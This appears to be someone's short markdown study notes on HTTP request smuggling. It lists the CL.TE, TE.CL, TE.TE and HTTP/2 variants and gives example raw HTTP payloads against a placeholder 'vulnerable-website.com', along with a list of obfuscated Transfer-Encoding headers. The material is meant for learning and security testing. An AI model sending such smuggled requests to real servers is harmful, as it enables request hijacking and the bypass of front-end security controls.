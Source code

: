# HTTP Request Smuggling

## Types:

1. HTTP/1.1
    1. CL.TE
    2. TE.CL
    3. TE.TE
3. HTTP/2

## How to find each type:

1. HTTP/1.1
    1. CL.TE
    2. TE.CL
    3. TE.TE

## How to exploit each type:

1. HTTP/1.1
    1. CL.TE
       ```http
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Length: 13               --> Content length is 13 which includes smuggled
       Transfer-Encoding: chunked    

       0  --> Since it is chunked the 0 terminates the first request, sending smuggled to the backend

       SMUGGLED               
       ```
    2. TE.CL
         ```http
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Length: 3               --> Content length is 3 which includes the 8
       Transfer-Encoding: chunked    

       8  --> This is the length of the following request
       SMUGGLED
       0   --> Needs to end in /r/n/r/n
       ```
    3. TE.TE
       - You need to obfuscate the Transfer-Encoding header so that one server does not process it
        ```http
        Transfer-Encoding: xchunked
        Transfer-Encoding : chunked
        Transfer-Encoding: chunked
        Transfer-Encoding: x
        Transfer-Encoding:[tab]chunked
        [space]Transfer-Encoding: chunked
        X: X[\n]Transfer-Encoding: chunked
        Transfer-Encoding
        : chunked
       ```

## Other important notes:
- HTTP/1.1 allows for content-length transfer-encoding
- Some servers that do support the Transfer-Encoding header can be induced not to process it if the header is obfuscated in some way.
- HTTP/2 is only vulnerable if the backend supports HTTP/1.1
- You need to manually switch the protocol in repeater
